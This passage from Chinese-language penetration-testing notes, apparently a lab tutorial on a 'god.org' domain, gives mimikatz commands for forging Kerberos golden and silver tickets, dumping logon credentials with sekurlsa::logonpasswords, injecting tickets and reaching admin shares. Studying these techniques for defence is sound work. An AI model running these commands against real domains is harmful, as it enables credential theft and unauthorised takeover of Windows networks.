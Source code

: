 3. 制作黄金票据

   ```
   kerberos::golden /admin:system /domain:god.org /sid:S-1-5-21-2952760202-1353902439-2381784089-1000 /krbtgt:58e91a5ac358d86513ab224312314061 /ticket:ticket.kirbi
   ```

4. 清除票据

   ```
   kerberos::purge 
   ```

5. 将票据注入内存

   ```
   kerberos::ptt 票据地址 
   ```

6. 查看票据

   ```
   kerberos::list
   ```

7. 票据利用

   ```
   dir \owa.god.org\c$
   ```



##### 白银票据

白银票据伪造的是 `ST`。

在 `Kerberos` 认证的第三步，`Client` 带着 `ST` 和 `Authenticator3` 向 Server 上的某个服务进行请求。

`Server` 接收到 `Client` 的请求之后，通过自己的 `Master Key` 解密 `ST`，从而获得 `Session Key`。

通过 `Session Key` 解密 `Authenticator3`，进而验证对方的身份，验证成功就让 `Client` 访问 `server` 上的指定服务了。

所以我们只需要知道 `Server` 用户的 `Hash` 就可以伪造出一个 `ST`，且不会经过 `KDC`，但是伪造的门票只对部分服务起作用。

白银票据这里只是对单一的服务进行授权，利用过程和黄金票据差不多，首先上域控制器`KDC`中，把机器的`ntlm hash`(`rc4`加密) 存储下来，然后在普通域用户机器进行伪造权限，进行`PTT`。

**攻击流程：**

1. 启动`mimikatz`并提权

   ```
   privilege::debug
   ```

2. 读取域与域用户信息

   ```
   sekurlsa::logonpasswords
   ```

3. 制作白银票据

   ```
   kerberos::golden /domain:god.org /sid:S-1-5-21-2952760202-1353902439-2381784089-1000 /target:owa.god.org /service:cifs /rc4:105c2352f5e8a768ca560cd1950f69b2 /user:liukaifeng01 /ptt
   ```
